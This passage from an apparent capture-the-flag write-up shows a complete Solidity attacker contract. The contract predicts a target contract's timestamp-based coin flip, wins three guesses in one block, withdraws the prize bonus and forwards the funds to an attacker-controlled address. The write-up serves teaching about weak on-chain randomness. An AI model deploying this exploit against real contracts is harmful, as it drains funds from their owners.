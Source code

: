 # Getting money back

The easiest way to "fix" our contract is to just add a small loop to guess 3 times and then use `withdrawFirstWinPrizeMoneyBonus`.

Let's do that then. Since the contract function will always be executed on the same block we don't need to care about changes in the flip value.
To get money back I added a separate function, but it can easily be merged. We also need `receive` for the transfer to succeed, and for ease of use I added a function to return the balance of the contract or target and one to potentially transfer the money to an address we control, but it's not needed for the CTF.
```solidity
contract PerfectGuesser {
    function flipCoin() private view returns (RollsRoyce.CoinFlipOption) {
        return
            RollsRoyce.CoinFlipOption(
                uint(
                    keccak256(abi.encodePacked(block.timestamp ^ 0x1F2DF76A6))
                ) % 2
            );
    }
    function guessCorrectly(address payable target) public payable {
        require(msg.value >= 3 ether, "To guess you need 3 ether");
        for (uint i=0;i<3;i++) {
            RollsRoyce.CoinFlipOption result = flipCoin();
            RollsRoyce(target).guess{value: 1 ether}(result);
            RollsRoyce(target).revealResults();
        }
    }
    function withdrawPrizeMoney(address payable _target) public {
        RollsRoyce(_target).withdrawFirstWinPrizeMoneyBonus();
    }
    receive() external payable {}
    function getBackOurMoney(address payable recipient, uint256 amount) public {
        require(
            address(this).balance >= amount,
            "Address: insufficient balance"
        );

        (bool success, ) = recipient.call{value: amount}("");
    }
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
    function getTargetBalance(address payable target) public view returns (uint256) {
        return target.balance;
    }
}
```
A lot of the code is just copied from the original contract - so there isn't really any Solidity knowledge required here.
